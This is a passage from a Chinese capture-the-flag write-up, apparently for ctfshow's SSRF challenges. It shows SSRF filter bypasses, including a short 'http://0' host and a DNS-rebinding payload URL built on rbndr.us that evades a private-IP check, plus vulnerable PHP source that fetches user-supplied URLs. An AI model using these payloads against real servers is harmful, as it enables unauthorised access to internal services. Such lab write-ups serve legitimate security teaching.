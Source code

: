 ```php
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

长度小于3

这里只能使用

```cobol
http://0/flag.php
```

## web357 DNS 重定向

我们这里首先会判断 是不是 私有ip

这样 我们之前的数字ip bypass就是失效了

这里我们可以使用DNS 重定向 bypass

 [rbndr.us dns rebinding service](https://lock.cmpxchg8b.com/rebinder.html) 



<img src="https://i-blog.csdnimg.cn/blog_migrate/dc2457cfd18b8140d17492867f4c95be.png" alt="" style="max-height:220px; box-sizing:content-box;" />


这里设置一个不是私有的ip

```cobol
url=http://7f000001.774bd96d.rbndr.us/flag.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4065494186b3109806e3dd76a1f69c46.png" alt="" style="max-height:386px; box-sizing:content-box;" />


## web358 @bypass

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```
